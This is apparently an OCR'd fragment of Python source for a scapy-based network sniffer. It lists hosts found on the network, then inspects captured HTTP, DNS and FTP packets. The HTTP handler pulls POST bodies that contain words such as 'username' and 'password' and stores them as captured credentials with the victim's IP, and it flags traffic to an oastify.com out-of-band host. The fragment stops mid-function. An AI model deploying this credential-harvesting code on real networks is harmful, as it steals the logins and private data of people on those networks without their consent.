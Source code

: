 ```python
        hosts = []
        for response in answered_list:
            host_info = {
                'ip': response[1].psrc,
                'mac': response[1].hwsrc
            }
            hosts.append(host_info)
            print(f"  📍 Found: {host_info['ip']} - {host_info['mac']}")
        
        return hosts
    
    def packet_analyzer(self, packet):
        """Analyze captured packets for credentials and sensitive data"""
        try:
            # HTTP Analysis
            if packet.haslayer(scapy.HTTPRequest):
                self.analyze_http_traffic(packet)
            
            # DNS Analysis
            elif packet.haslayer(scapy.DNSQR):
                self.analyze_dns_traffic(packet)
            
            # FTP Analysis
            elif packet.haslayer(scapy.Raw) and packet.haslayer(scapy.TCP):
                if packet[scapy.TCP].dport == 21 or packet[scapy.TCP].sport == 21:
                    self.analyze_ftp_traffic(packet)
        
        except Exception as e:
            pass  # Ignore packet parsing errors
    
    def analyze_http_traffic(self, packet):
        """Extract HTTP credentials and data"""
        method = packet[scapy.HTTPRequest].Method.decode()
        host = packet[scapy.HTTPRequest].Host.decode()
        path = packet[scapy.HTTPRequest].Path.decode()
        
        # Log HTTP requests to target site
        if "oastify.com" in host:
            print(f"🎯 Target site access: {method} {host}{path}")
            self.test_target_site_interaction(packet)
        
        # Extract POST data for credentials
        if method == "POST" and packet.haslayer(scapy.Raw):
            post_data = packet[scapy.Raw].load.decode(errors='ignore')
            
            # Check for credential patterns
            credential_patterns = ['username', 'password', 'login', 'email', 'user', 'pass']
            if any(pattern in post_data.lower() for pattern in credential_patterns):
                credential_info = {
                    'timestamp': time.time(),
                    'source_ip': packet[scapy.IP].src,
                    'target_host': host,
                    'data': post_data[:200],  # Limit data length
                    'method': method
                }
                self.captured_credentials.append(credential_info)
                print(f"🔑 Credentials captured from {packet[scapy.IP].src}")
    
    def analyze_dns_traffic(self, packet):
        """Monitor DNS queries for reconnaissance"""
        query = packet[scapy.DNSQR].qname.decode()
        source_ip = packet[scapy.IP].src
        
```